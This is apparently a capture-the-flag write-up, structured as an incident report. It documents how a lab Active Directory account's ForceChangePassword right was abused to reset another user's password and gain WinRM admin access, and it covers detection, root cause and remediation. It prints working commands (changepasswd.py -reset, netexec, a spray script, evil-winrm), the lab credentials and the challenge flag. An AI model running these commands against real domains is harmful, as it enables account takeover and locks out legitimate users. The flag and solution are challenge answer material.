





**Category:** DACL | **Difficulty:** Easy | **Flag:** <details><summary>reveal</summary><code>EPI{D4CL_s4y5_1_0WN_y0uR_Acc0un7_P4L}</code></details>

**Primary Technique(s):** DACL abuse — `ForceChangePassword` (T1098)

> Description: *"Why bother with cracking a password when you can just
> change it?"*

Working log: `challenges/thats-not-my-password.md`.

## Executive Summary

An account (`d.scrip`), reached via an unrelated plaintext-password leak
in its own AD `description` attribute, was found to hold a
`ForceChangePassword` Access Control Entry (ACE) over a completely
unrelated account, `d.toh`. This ACE grants the `User-Force-Change-Password`
extended right, allowing the holder to set an arbitrary new password on
the target account with no knowledge of — or need to crack — the
target's existing password. The reset was performed directly via
Impacket's `changepasswd.py`, after discovering the tool defaults to a
normal password *change* (which requires the old password) rather than a
forced *reset* unless explicitly told otherwise. The newly-set password
granted administrative WinRM access to **PROCYON** (`10.42.0.106`), where
the flag was found directly on the account's Desktop. This is the first
finding in this engagement to involve pure ACL abuse with zero offline
cracking at any stage.

## Investigation & Technical Analysis

### Technical Incident Overview

`ForceChangePassword` is an Active Directory extended right
(`User-Force-Change-Password`) that allows its holder to reset a target
account's password outright, bypassing the normal requirement to supply
the account's current password. It exists to support legitimate
administrative/help-desk password-reset workflows. When granted to an
account with no corresponding support responsibility, it functions as a
complete, silent-to-configure account-takeover primitive: the holder
never needs to crack, guess, or even see the target's original password —
they simply assign a new one of their choosing. This is categorically
different from every other credential-access technique used elsewhere in
this engagement (Kerberoasting, GPP decryption, AS-REP roasting, Shadow
Credentials) in that it involves **no cryptographic material or offline
computation whatsoever** — it is pure directory-permission abuse.

### Scope & Methodology

- **Target domain:** HOUNDLABS.EPI, DC01 at `10.42.0.42`.
- **Starting access:** `d.scrip:ONeT0uGhP4ssW0rdT0CrAcK!` — recovered
  from a plaintext password sitting in `d.scrip`'s AD `description`
  attribute (a separate, pre-existing recon finding documented in
  `notes/domain-users.md`; this write-up's scope begins from that
  credential already in hand, not its original discovery).
- **Tools used:** raw BloodHound JSON analysis (grepping every object's
  `Aces` array for `d.scrip`'s SID as `PrincipalSID`, the same approach
  used for `r.singh` in Reversable Encryption, since the legacy
  BloodHound GUI never rendered in this container), Impacket's
  `changepasswd.py` for the password reset itself, `netexec`/
  `scripts/spray-all.sh` for the post-reset host×protocol access sweep,
  `evil-winrm` for the resulting interactive shell.
- **Enumeration approach:** targeted BloodHound-JSON ACE lookup for a
  specific already-known principal's outbound rights (narrower than the
  exhaustive domain-wide sweep used in Service Changer/Shadowy Technique,
  since the entry point here was a single already-identified credential
  rather than an open-ended hunt) → password reset → full host×protocol
  validation sweep for the resulting account, since AD group membership
  again did not predict real access.
- **Evidence sources:** command output reproduced below;
  `challenges/thats-not-my-password.md` (full working log).

### Attack Chain & Detailed Findings

**1. ACE discovery.** A targeted search of the existing BloodHound JSON
collection for every outbound ACE held by `d.scrip`
(`S-1-5-21-3960653063-48562614-2573637572-1159`) found:

```
d.scrip --ForceChangePassword--> D.TOH@HOUNDLABS.EPI
```

(The same search for the paired leaked account, `k.cedepte`, found no
outbound ACEs at all — confirming `d.scrip` specifically, not the pair
generically, is the entry point for this chain.)

**2. Password reset attempt — tooling gotcha.** The first attempt used
`changepasswd.py`'s default mode, which performs a normal *change*
(requiring the target's own current password) rather than a privileged
*reset*:

```sh
changepasswd.py 'HOUNDLABS.EPI/d.toh'@10.42.0.42 -newpass '<newpass>' \
  -altuser d.scrip -altpass 'ONeT0uGhP4ssW0rdT0CrAcK!' -dc-ip 10.42.0.42
```

This failed (`Could not change the password... possibly due to password
policy or invalid oldPassword`) because the default `smb-samr` protocol
path doesn't invoke the `ForceChangePassword` extended right at all.
Switching to `-protocol ldap` alone still defaulted to change-mode and
failed identically. The tool's own error output pointed at the fix:
explicitly pass `-reset` to use the `User-Force-Change-Password`
extended-right path instead of a normal credential-based change.

**3. Successful forced reset (T1098 – Account Manipulation).**

```sh
changepasswd.py 'HOUNDLABS.EPI/d.toh'@10.42.0.42 -newpass 'N3wP4ss4DToh!' \
  -altuser d.scrip -altpass 'ONeT0uGhP4ssW0rdT0CrAcK!' -dc-ip 10.42.0.42 \
  -protocol ldap -reset
```



Succeeded — `d.toh`'s password is now `N3wP4ss4DToh!`, set with zero
knowledge of the original value at any point. Confirmed:

```sh
netexec ldap 10.42.0.42 -u d.toh -p 'N3wP4ss4DToh!'
# [+] HOUNDLABS.EPI\d.toh:N3wP4ss4DToh!
```



**4. Host×protocol access discovery.** As with every prior finding in
this engagement, AD group membership did not predict real access —
a full sweep was required:

```sh
scripts/spray-all.sh d.toh
# WinRM (admin) hit on PROCYON (10.42.0.106)
```



Notably, `d.toh` landed on **PROCYON**, not SIRIUS — the host every
other account found up to this point (`d.folt`, `g.clooney`, `p.origan`)
had landed on. This confirms there is no single "shared landing host"
pattern across every account in this lab; each credential's real access
must be checked independently rather than assumed from precedent.
PROCYON is the same host `r.singh` obtained WinRM access on in
Reversable Encryption.

**5. Interactive access and flag retrieval.**

```sh
evil-winrm -i 10.42.0.106 -u d.toh -p 'N3wP4ss4DToh!'
*Evil-WinRM* PS> dir C:\Users\d.toh\Desktop
# flag14.txt
*Evil-WinRM* PS> type C:\Users\d.toh\Desktop\flag14.txt
```



<details><summary>Flag (spoiler — click to reveal screenshot and value)</summary>



```
EPI{D4CL_s4y5_1_0WN_y0uR_Acc0un7_P4L}
```

</details>

**MITRE ATT&CK mapping:**

| Technique | ID | Step |
|---|---|---|
| Account Manipulation | T1098 | Step 3 |
| Valid Accounts | T1078.002 | Steps 4–5 |
| Remote Services: Windows Remote Management | T1021.006 | Steps 4–5 |

**Attacker operational security (would this have been flagged by a blue
team?):** This is the **noisiest** technique in the entire engagement,
and deliberately so — a `ForceChangePassword` reset is not something an
attacker can hide even in principle. The moment it executes, `d.toh`
loses the ability to log in with their real password, which guarantees
a support ticket or a direct complaint from the account holder, usually
within minutes to hours. There is no cleanup step that undoes this: the
only way to restore the original state is to already know the original
password (which, per the whole premise of this technique, the attacker
never did). Event ID `4724` makes this unambiguous to a defender anyway,
especially once correlated against the Subject performing the reset not
being a recognized help-desk account. Compare directly against Shadowy
Technique's Shadow Credentials chain: both result in full control of an
unrelated account, but one is silent and self-cleaning, the other is
loud and irreversible. A real attacker would reserve `ForceChangePassword`
abuse for when the objective is final, immediate access and stealth is
no longer the priority — not as a first move in a campaign meant to stay
under the radar.

### Root Cause Analysis

The root cause is an unnecessary `ForceChangePassword` ACE: `d.scrip`
holds the `User-Force-Change-Password` extended right over `d.toh` with
no apparent documented business relationship or help-desk responsibility
justifying the grant. This is functionally the most severe category of
DACL misconfiguration encountered in this engagement — unlike the
Shadow Credentials or WriteSPN findings, which still require some
additional cryptographic/offline step (PKINIT authentication, offline
hash cracking) to realize full account takeover, `ForceChangePassword`
requires none: possession of the ACE **is** complete and immediate
control of the target account. The chain's own entry point (`d.scrip`'s
credential) is itself the product of a separate misconfiguration — a
plaintext password stored in the AD `description` attribute, a
well-known, easily-scanned-for anti-pattern — reinforcing a recurring
theme across this engagement: a single low-severity-looking leak
repeatedly turns out to unlock a much more consequential downstream
permission once directory-wide ACL/attribute data is actually examined.

### Indicators of Compromise

- **Source account:** `d.scrip` (ACE holder; credential originally
  leaked via its own AD `description` field)
- **Target/victim account:** `d.toh` (password reset; no apparent prior
  relationship to `d.scrip`)
- **ACE abused:** `ForceChangePassword` (`d.scrip` → `d.toh`)
- **Compromised host:** PROCYON, `10.42.0.106` (WinRM, admin-equivalent)
- **Credential set:** `d.toh:N3wP4ss4DToh!` (attacker-chosen value — the
  original password was never known or recovered)
- **Relevant Windows Event IDs (for detection, not observed in this
  lab):** Event ID `4724` (an attempt was made to reset an account's
  password) is the specific, unambiguous signature of this technique —
  particularly notable (and alertable) when the "Subject" performing the
  reset is not a recognized help-desk/administrative account and is
  distinct from the "Target Account."

## Impact Analysis

- **Severity (illustrative CVSS v3.1 vector):**
  `AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H` — **~9.1 (Critical)**. Requires
  only a low-privilege starting credential (`PR:L`), no user interaction,
  and the scope change (`S:C`) into complete, immediate control of an
  unrelated account — arguably the most direct account-takeover
  technique demonstrated in this engagement, since it requires no
  further cracking or certificate step after the reset.
- **Blast radius:** Full control of `d.toh`, including whatever
  host-local privilege that account holds (admin-equivalent WinRM on
  PROCYON) and any further material reachable from there. The
  reset itself is also immediately disruptive and detectable by the
  legitimate account holder (they are locked out as soon as the reset
  occurs), unlike the Shadow Credentials finding — meaning this
  technique trades stealth for speed and certainty.
- **Compounding factor:** this finding depends on a separate
  misconfiguration (the AD description-field password leak) for its
  entry point, again demonstrating that this engagement's individual
  findings chain together rather than existing in isolation — a
  comprehensive remediation plan needs to address both the ACE grant and
  the credential-leak vector that made reaching it possible.
- **Business/legal consequence:** `ForceChangePassword`/`GenericAll`-style
  over-permissioning is one of the most commonly flagged findings in AD
  security assessments precisely because of how directly it maps to full
  account compromise; its presence here with no corresponding
  operational justification represents a standard, well-documented
  hardening failure.

## Remediation & Recommendations

**Priority 1 — close the exposure:**
- Remove the `ForceChangePassword` ACE held by `d.scrip` over `d.toh`;
  run a domain-wide BloodHound query for this edge type (and
  `GenericAll`/`GenericWrite` equivalents) to identify any other
  unjustified grants.
- Reset `d.toh`'s password again (the attacker-set value is now also
  compromised/known); reset `d.scrip`'s password and remove the
  plaintext value from its AD `description` field.
- Audit whether `d.scrip` has any legitimate help-desk/support role that
  would explain the original grant — if not, treat this as unambiguous
  evidence of ACL misconfiguration requiring a wider audit.

**Priority 2 — detection:**
- Alert on Event ID `4724` wherever the performing account differs from
  a recognized, documented password-reset-capable administrative
  account or tool — this directly and unambiguously flags
  `ForceChangePassword`-style abuse as it happens.
- Correlate password-reset events with the affected account's
  subsequent first login, to catch exactly this attack pattern (reset →
  immediate login as the now-controlled account) in near-real-time.

**Priority 3 — structural:**
- Extend the domain-wide dangerous-ACE audit methodology used in the
  Service Changer and Shadowy Technique findings to specifically include
  `ForceChangePassword` and other password-reset-capable rights as a
  standing, recurring control.
- Scan AD attribute fields (`description`, `info`, `comment`, and similar
  free-text fields) domain-wide for anything resembling a credential —
  this is the second finding in this engagement (after the GPP
  `cpassword` issue) rooted in a credential sitting somewhere it was
  never designed to be protected.

## Appendices

- **A. Command transcript:** BloodHound JSON ACE lookup, the
  `changepasswd.py` reset attempt and its tooling gotcha, the successful
  forced reset, the host×protocol sweep, and `evil-winrm` flag
  retrieval — see Attack Chain section above for full commands and
  output.
- **B. Working log:** `challenges/thats-not-my-password.md`.
- **C. Related findings:** the `k.cedepte`/`d.scrip` AD description-field
  credential leak that supplied this chain's entry point is its own,
  separately tracked and scored challenge node — see
  [A Verbose Description](../a_verbose_description/a_verbose_description_tech.md)
  (corrected: an earlier version of this write-up incorrectly assumed it
  wasn't a standalone node);
  [Reversable Encryption](../reversable_encryption/reversable_encryption_tech.md)
  for the companion PROCYON foothold (`r.singh`) found via an entirely
  different technique.
- **D. Screenshots:** terminal captures embedded inline above
  (`assets/01-changepasswd-reset.png` through `assets/05-flag-retrieved.png`,
  captured 2026-10-25). Still TODO: a capture of the BloodHound ACE lookup
  itself and the *failed* `changepasswd.py` attempt (useful to show the
  tooling gotcha) — only the successful `-reset` run was captured this
  session.
